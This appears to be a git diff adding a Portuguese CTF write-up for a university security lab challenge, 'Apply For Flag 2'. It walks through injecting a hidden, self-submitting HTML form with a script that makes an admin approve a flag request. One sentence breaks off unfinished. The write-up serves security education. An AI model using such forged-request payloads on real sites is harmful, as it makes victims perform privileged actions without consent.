

Apply for flag II done

diff --git a/CTF/ApplyForFlag2.md b/CTF/ApplyForFlag2.md
@@ -1,3 +1,44 @@
 # Apply For Flag 2 - CTF Extra
 
-Ao entrar no site, verificamos que podemos enviar uma form 
+Ao entrar no site verificamos que é semelhante ao site do CTF da semana 10 'Apply for flag', exceto desta vez o *request* tem um id especifico:
+
+![Request ID](../img/applyforflag1.png)
+
+Verificamos na página do admin que a porta da página muda de 5004 para 5005 e o form do *request* tem esta estrutura:
+
+```html
+<form method="POST" action="/request/<request_id>/approve" role="form">
+    <div class="submit"> 
+        <input type="submit" id="giveflag" value="Give the flag" disabled="">   
+    </div>
+</form>
+```
+
+`request_id` é aquele apresentado na página inicial. Com isto em conta, construimos um novo form para aceitar o pedido:
+
+```html
+<form method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/<request_id>/approve" role="form" hidden>
+    <div class="submit">
+        <input type="submit" id="giveflag" value="Give the flag">
+    </div>
+    <script>
+        document.getElementById('giveflag').click();
+    </script>
+</form>
+```
+
+Inserindo só isto, verifica-se que é feito um redirecionamento para o url da ação da form e não temos permissão para isto. 
+
+![Não permissão](../img/applyforflag2.png)
+
+Assim, devemos impedir o redirecionamento do nosso lado, mas que este seja feito do lado do admin de qualquer maneira, já que o admin tem permissão. Para isto, desabilitamos o javascript da página no nosso browser:
+
+![Desativar javascript](../img/applyforflag3.png)
+
+Fazendo de novo, verificamos que ja é feito o redirecionamento para a página certa, mas o request ainda não foi avaliado.
+
+![Request not evaluated yet](../img/applyforflag4.png)
+
+Isto acontece porque, ao desativar o javascript foi desativado o script que faz reload a página, pelo que é necessario 
+
+![Flag](../img/applyforflag5.png)
